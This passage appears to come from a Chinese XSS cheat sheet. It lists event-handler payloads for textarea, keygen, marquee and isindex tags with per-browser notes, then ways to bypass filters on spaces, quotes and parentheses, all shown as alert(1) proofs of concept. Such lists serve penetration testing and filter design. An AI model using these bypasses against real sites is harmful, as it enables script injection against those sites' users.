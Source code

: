 
```js
<textarea> 标签定义一个多行的文本输入控件。
<textarea onfocus=alert(1); autofocus>
```

### 12.keygen 标签

```js
<keygen autofocus onfocus=alert(1)> //仅限火狐xxxxxxxxxx 
<keygen autofocus onfocus=alert(1)> //仅限火狐1
```

### 13.marquee 标签

```js
<marquee onstart=alert(1)></marquee> //Chrome不行，火狐和IE都可以
```

### 14.isindex 标签

```js
<isindex type=image src=1 onerror=alert(1)>//仅限于IE
```

## 7.常见基本过滤方法

### 1.空格过滤

```js
当空格被过滤了时，我们可以用 / 来代替空格：

/**/，注释符号绕过；/符号绕过；

<img/src="x"/onerror=alert(1);>

也可以：

<img/src="x"onerror=alert(1);>
```

### 2.引号过滤

```js
如果是html标签中，我们可以不用引号。如果是在js中，我们可以用反引号代替单双引号：

<img src=x onerror=alert(`xss`);>
```

### 3.括号过滤

```js
当括号被过滤的时候可以使用throw来绕过。throw 语句用于当错误发生时抛出一个错误。

<img src=x onerror="javascript:window.onerror=alert;throw 1">
<a onmouseover="javascript:window.onerror=alert;throw 1>
```
